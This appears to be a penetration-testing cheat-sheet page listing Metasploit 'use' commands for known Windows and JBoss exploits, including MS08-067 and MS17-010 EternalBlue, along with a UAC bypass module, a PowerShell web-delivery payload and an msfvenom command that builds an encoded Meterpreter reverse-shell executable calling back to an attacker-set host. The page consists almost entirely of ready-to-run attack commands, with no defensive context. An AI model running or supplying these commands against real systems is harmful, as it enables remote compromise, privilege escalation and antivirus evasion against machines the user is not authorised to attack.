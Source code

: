 ```yaml
---
layout: default
title: MSxx Exploits
parent: Exploitation
nav_order: 3
---
```


# MSxx Exploits

**JBoss deploy**

`use exploit/multi/http/jboss_maindeployer`

**MS03-026**

`use exploit/windows/dcerpc/ms03_026_dcom`

**MS06-040**

`use exploit/windows/smb/ms06_040_netapi`

**MS08-067**

`use exploit/windows/smb/ms08_067_netapi`

**MS09-050**

`use exploit/windows/smb/ms09_050_smb2_negotiate_func_index`

**MS17-010**: Eternal Blue

`use exploit/windows/smb/ms17_010_eternalblue`

`https://github.com/worawit/MS17-010`



**Bypass UAC on Win7+**

`use exploit/windows/local/bypassuac (check if x86/64 and set target)`

**Powershell Payload delivery**

`use exploit/multi/script/web_delivery`

**Generate Standalone Payload**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<PORT> -a x86 -f exe -e x86/shikata_ga_nai -b '\x00' -i 3 > meter.exe`